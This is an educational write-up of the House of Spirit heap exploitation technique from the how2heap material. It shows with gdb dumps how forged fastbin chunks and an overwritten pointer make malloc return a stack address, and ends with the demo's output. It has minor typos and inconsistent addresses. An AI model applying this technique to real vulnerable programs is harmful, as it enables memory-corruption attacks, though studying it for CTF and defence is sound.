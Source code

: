 # Shellphish how2heap House of Spirit

This is another section of the CTF team Shellphish's how2heap educational github repo. This time, we are focusing on the House of Spirit attack.

For a look at a ctf challenge which uses this technique: https://github.com/guyinatuxedo/ctf/tree/master/hack.lu14/pwn/oreo

The goal of this is to get malloc to return a pointer to a that we control (it can be in the heap, stack, or anywhere that we can write to). It will require us to make two fake chunks, by writing two eight byte integers. After that we just need to overwrite a ptr to the first fake chunk, and free it.

## Exploit Process

First we will need to call malloc once, so that it sets up it's memory.

Proceeding that we will start setting up our fake chunk. Right now it just looks like this`):

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x00007fffffffde0f
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

This chunk of memory will end up splitting into two fake chunks. The first starts at `0x7fffffffddd0` and the second starts at `0x7fffffffde10` (by start I mean where the metadata for the fake chunk starts).

Next we will have to edit the size for our first fake chunk (will be stored at `0x7fffffffddd8`). One thing about it, the size has to be 16 bytes more than the total region, to account for the 16 bytes of chunk metadata. If we input the size to be `0x40`, that will fit perfectly since `0x7fffffffde10 - 0x7fffffffddd0 = 0x40` (this also still falls into the fastbin category which for x64 enviornments is equal to or under 128 bytes). In addition to that, another we also need to look out for the `IS_MAPPED` (second least signifcant bit, right after `previous_chunk_in_use`) and `NON_MAIN_ARENA` (third least signifcant bit, right after `IS_MAPPED`) bits are switched to 0x0 they will pass the check in free. In addition to this, the size we put will need to be equivalent to size that we malloc to get the fake pointer, after it has been rounded to the internal size (on x64 environments 0x30-0x38 will round up to 0x40)  So now our chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x00005555555546d0
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Next we will need to write the size of the second fake chunk. This value will be stored at `1`. The value that we put here doesn't matter too much. In the section it used `0x1234`, however I got it to work with values ranging from `0x11` to `0x1200`. However we do need this value in order for this to work, and the range of values you can have which will pass all of the checks as you can see is quite large (it has to be less than `av->system_mem` which is `0x1d4c0` or 128 kb on x64 enviornments and greater than 2*SIZE_SZ which is `0x10` on 64 bit systems). With that our fake chunk looks like this:

```
gdb-peda$ x/12g 0x7fffffffddd0
0x7fffffffddd0:	0x00000000000000c2	0x0000000000000040
0x7fffffffdde0:	0x00007fffffffde0e	0x00007ffff7abab85
0x7fffffffddf0:	0x0000000000000001	0x0000555555554a5d
0x7fffffffde00:	0x0000000000000000	0x0000000000000000
0x7fffffffde10:	0x0000555555554a10	0x0000000000001234
0x7fffffffde20:	0x00007fffffffdf10	0x04254386eda99100
```

Now we can just overwrite a pointer to point to chunk `0x7fffffffdde0` (it will point to the content section of the fake chunk, which is supposed to be after the 16 bytes of chunk metadata). We can see it here that we have overwritten a pointer on the stack with that address:

```
gdb-peda$ find 0x7fffffffdde0
Searching for '0x7fffffffdde0' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0x7fffffffddc8 --> 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
``` 

Proceeding that, we can free the pointer which we have overwritten. GDB tells us that the argument for free is indeed the pointer to our first fake chunk:

```
Guessed arguments:
arg[0]: 0x7fffffffdde0 --> 0x7fffffffde0e --> 0x555555554a100000 
```

After the call to free, we can see that our chunk has been addres to the fastbin list (it is the address we freed minus `0x10` because of the 16 bytes of heap metadata)

```
gdb-peda$ p main_arena.fastbinsY
$1 = {0x0, 0x0, 0x7fffffffddd0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
```
After that, the fake chunk has been freed it has been added to the fast bin list. You should just be able to allocate another chunk using `malloc` of a similar size, and you will get the chunk allocated (which we can see is what we got):

```
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```


## Section Running

Below you can see the actual elf for this section running:

```
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7fffffffddd8 and the second at 0x7fffffffde08.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7fffffffddd8.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7fffffffddd8, which will be 0x7fffffffdde0!
malloc(0x30): 0x7fffffffdde0
```
